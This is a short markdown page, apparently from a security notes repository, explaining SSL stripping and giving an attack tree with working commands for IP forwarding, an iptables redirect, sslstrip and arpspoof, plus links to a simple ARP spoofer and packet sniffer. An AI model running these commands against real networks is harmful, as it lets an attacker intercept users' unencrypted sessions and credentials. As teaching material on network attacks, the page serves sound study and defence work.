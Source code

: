 # SSL Stripping

SSL stripping downgrades a HTTPS connection to HTTP by intercepting the TLS authentication sent from the application to the user. The adversary sends an unencrypted version of the application’s site to the user while maintaining the secured session with the application. The user’s session is visible to the adversary.

## Attack tree

```text
1 Strip SSL (AND)
    1.1 Install SSLStrip (AND)
    1.2 Configure attack machine for IP forwarding (echo 1 > /proc/sys/net/ipv4/ip_forward or sysctl -w net.ipv4.ip_forward=1) (AND)
    1.3 Route all HTTP traffic to SSLStrip (iptables –t nat –A PREROUTING -i eth0 –p tcp –dport 80 –j REDIRECT –to-port 54321) (AND)
    1.4 Run SSLStrip (sslstrip –l 54321)
2 Spoof ARP (AND)
    2.1 Install arpspoof (AND)
    2.2 Configure ARP spoofing (arpspoof –i eth0 –t <targetIP> <gatewayIP>)
3 Sniff traffic 
```

## Scripting
* [simple ARP spoofer](https://github.com/tymyrddin/ymrir/tree/master/arp_spoofer)
* [simple packet sniffer](https://github.com/tymyrddin/ymrir/tree/master/packet_sniffer)
